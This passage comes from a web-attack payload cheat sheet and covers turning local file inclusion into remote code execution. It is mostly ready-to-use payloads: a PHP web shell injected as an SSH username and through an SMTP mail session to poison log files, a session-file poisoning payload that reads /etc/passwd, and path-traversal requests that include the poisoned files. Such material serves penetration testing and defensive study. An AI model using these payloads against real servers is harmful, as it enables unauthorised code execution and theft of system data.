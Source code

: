 ### RCE via SSH
Try to ssh into the box with a PHP code as username <?php system($_GET["cmd"]);?>.
```bash
ssh <?php system($_GET["cmd"]);?>@10.10.10.10
```
Then include the SSH log files inside the Web Application.
```txt
http://example.com/index.php?page=/var/log/auth.log&cmd=id
```

### RCE via Mail
First send an email using the open SMTP then include the log file located at http://example.com/index.php?page=/var/log/mail.
```bash
root@kali:~# telnet 10.10.10.10. 25
Trying 10.10.10.10....
Connected to 10.10.10.10..
Escape character is '^]'.
220 straylight ESMTP Postfix (Debian/GNU)
helo ok
250 straylight
mail from: mail@example.com
250 2.1.0 Ok
rcpt to: root
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
subject: <?php echo system($_GET["cmd"]); ?>
data2
.
```

### LFI to RCE via PHP sessions
Check if the website use PHP Session (PHPSESSID)
```php
Set-Cookie: PHPSESSID=i56kgbsq9rm8ndg3qbarhsbm27; path=/
Set-Cookie: user=admin; expires=Mon, 13-Aug-2018 20:21:29 GMT; path=/; httponly
```
In PHP these sessions are stored into /var/lib/php5/sess_[PHPSESSID] or /var/lib/php/session/sess_[PHPSESSID] files
```bash
/var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm27.
user_ip|s:0:"";loggedin|s:0:"";lang|s:9:"en_us.php";win_lin|s:0:"";user|s:6:"admin";pass|s:6:"admin";
```
Set the cookie to <?php system('cat /etc/passwd');?>
```txt
login=1&user=<?php system("cat /etc/passwd");?>&pass=password&lang=en_us.php
```
Use the LFI to include the PHP session file
```txt
login=1&user=admin&pass=password&lang=/../../../../../../../../../var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm27
```
### LFI to RCE via credentials files
This method require high privileges inside the application in order to read the sensitive files.
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#lfi-to-rce-via-credentials-files